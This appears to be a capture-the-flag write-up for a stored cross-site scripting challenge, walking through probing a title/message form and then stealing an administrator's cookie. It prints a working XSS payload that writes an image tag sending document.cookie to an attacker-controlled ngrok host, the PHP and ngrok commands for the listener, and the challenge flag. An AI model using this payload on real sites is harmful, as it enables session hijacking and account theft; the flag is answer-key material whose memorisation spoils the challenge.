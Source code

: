 # XSS - Stored 1

**Point**: 30 points

**Description**: So easy to sploit

## Solution:

There's a form for submitting "title" and "message".

<p align="center"><img width="450px" height="300px" src="https://user-images.githubusercontent.com/48288606/158942903-a138857c-579f-4711-aa2d-f94a17d05106.png"/></p>

Let's check whether XSS is possible. Inject respectively with `<script>alert(1)</script?` and `hacking` (optional)

Nothing was happened. Reversing our input, maybe XSS occurs in second input: `hacking` for title and `<script>alert(1)</script?` for message.

<p align="center"> <img width="400px" height="150px" src="https://user-images.githubusercontent.com/48288606/158943445-969975ce-0c9d-474c-a44c-c398dc3800a6.png"> </p>

Now this proves XSS can be in action. Now we have to get the **cookie** from the victim, in this challenge victim is **administrator**. We can handle that with `document.cookie`. But the point is how we can get it; as usual payload we use `alert`, `console.log`, ... it won't work when these actions take place in client side and we would only see our cookie on the screen. 

We have to delivery all collected cookie from victim (administrator) to a specific server that we take control. To do that, we can think of a tag like `<img/>` to contain our server link in `src` attribute and when the victim **GET** an image from our source, we can see the full path **URL Request** and inject cookie to that URL, also find a way to "call" that image. Payload will look like this:

```javascript
<script> document.write("<img src='{your_server_link_site}?cookie=" + document.cookie + "' />") </script>
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/158958343-5d03bfd3-686b-437b-8d3d-97bda34cedc1.png" /></p>

3. Send our payload: `hacking` in **title** and 
```javascript
<script> document.write("<img src='http://85ae-123-21-33-87.ngrok.io?cookie=" + document.cookie + "' />") </script>
``` 
in **message**

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158959186-eb82cb0f-93ad-4324-953f-3e43d4e86bf1.png" /> </p>

The cookie create by **administrator** shown up in the request.

FLag: **NkI9qe4cdLIO2P7MIsWS8ofD6**

